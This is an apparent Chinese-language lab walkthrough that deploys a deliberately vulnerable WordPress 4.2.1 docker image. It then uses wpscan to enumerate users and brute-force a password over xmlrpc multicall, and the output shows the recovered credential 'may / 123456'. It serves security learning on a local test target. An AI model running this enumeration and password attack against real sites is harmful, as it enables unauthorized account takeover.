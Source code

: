 环境使用wpscan开发团队提供的VulnerableWordpress进行部署 版本为4.2.1

```plain
-> git clone https://github.com/wpscanteam/VulnerableWordpress.git
-> cd VulnerableWordpress/
-> docker build --rm -t wpscan/vulnerablewordpress .\
-> docker run --name vulnerablewordpress -d -p 81:80 -p 3307:3306 wpscan/vulnerablewordpress
```

访问127.0.0.1:81 初始化过程略  
[![](assets/1706513536-aa683d97acbf8695de333be9382bf913.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705136492103-8bcfbf42-404c-4a79-8b0f-f17cd656807f.png#averageHue=%23dfdfdf&clientId=uad14354d-ef7d-4&from=paste&height=836&id=u635ac550&originHeight=1672&originWidth=3078&originalType=binary&ratio=2&rotation=0&showTitle=false&size=284245&status=done&style=none&taskId=uf17d4505-1056-413b-8354-087a3dc7c73&title=&width=1539)  
使用wpscan进行用户枚举

```plain
-> wpscan --url http://localhost:81/ --enumerate
[i] User(s) Identified:

[+] may
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

获得用户名may，爆破密码

```plain
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 00:00:00 <===========================================================================================================> (0 / 0) 100.0% Time: 00:00:00
WARNING: Your progress bar is currently at 0 out of 0 and cannot be incremented. In v2.0.0 this will become a ProgressBar::InvalidProgressError.
Progress Time: 00:00:00 <===========================================================================================================> (0 / 0) 100.0% Time: 00:00:00
[SUCCESS] - may / 123456
All Found
```
